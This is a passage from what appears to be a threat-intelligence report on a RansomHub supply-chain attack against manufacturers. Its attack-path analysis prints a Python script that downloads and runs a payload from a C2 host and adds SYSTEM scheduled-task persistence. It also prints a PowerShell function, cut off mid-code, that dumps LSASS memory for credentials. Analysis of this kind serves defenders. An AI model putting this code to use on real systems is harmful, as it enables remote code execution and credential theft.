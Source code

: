 #### Extended Impact (24-72 hours)
- Just-in-time failures cascade to 10,000+ downstream manufacturers [[62]](#ref62)
- Critical spare parts unavailable for infrastructure maintenance [[63]](#ref63)
- Food spoilage from packaging equipment shortages exceeds $25M [[64]](#ref64)

#### Long-term Consequences (Weeks-Months)
- Industrial base erosion as smaller suppliers fail [[65]](#ref65)
- Foreign dependency increases for critical components [[66]](#ref66)
- Innovation pipeline disrupted by R&D theft [[67]](#ref67)

---

## Technical Attack Path Analysis

### Phase 1: Initial Access via Supply Chain
**MITRE ATT&CK**: T1195.002 - Supply Chain Compromise: Software Supply Chain [[68]](#ref68)

#### Technical Evidence
```python
# Malicious update script deployed through supplier portal
# Source: RansomHub Incident Response Report RH-2024-061 [[69]](#ref69)
import requests
import base64
import subprocess

def download_and_execute():
    # Beacon to C2 infrastructure
    c2_url = "https://update-srv[.]com/api/v2/client"
    
    # Download encrypted payload
    response = requests.get(f"{c2_url}/package.dat", 
                          headers={"User-Agent": "SupplierPortal/2.1"})
    
    # Decode and execute
    payload = base64.b64decode(response.content)
    with open("C:\\Windows\\Temp\\svcupdate.exe", "wb") as f:
        f.write(payload)
    
    # Establish persistence
    subprocess.run(["schtasks", "/create", "/tn", "SupplierUpdate", 
                   "/tr", "C:\\Windows\\Temp\\svcupdate.exe", 
                   "/sc", "hourly", "/ru", "SYSTEM"])
```

**Analysis**: RansomHub compromised a widely-used supplier portal to distribute malicious updates to hundreds of manufacturing companies simultaneously [[70]](#ref70).

### Phase 2: Credential Harvesting
**MITRE ATT&CK**: T1003.001 - OS Credential Dumping: LSASS Memory [[71]](#ref71)

#### PowerShell Empire Script
```powershell
# Credential extraction observed in multiple incidents
# SHA256: 3a7b4e8d91f2c5e6a9b0d7f1e4c8b2a5d7e9f3c6b8a1e7d4f9c2b5a8e1d7c4b9
function Invoke-MemoryExtraction {
    $process = Get-Process lsass
    $handle = [Win32]::OpenProcess(0x1F0FFF, $false, $process.Id)
    
    $dumpFile = "C:\ProgramData\debug.dmp"
    [Win32]::MiniDumpWriteDump($handle, $process.Id, 
                               [IO.FileStream]::new($dumpFile, 'Create'), 
                               0x00000002, [IntPtr]::Zero, [IntPtr]::Zero, 
                               [IntPtr]::Zero)
```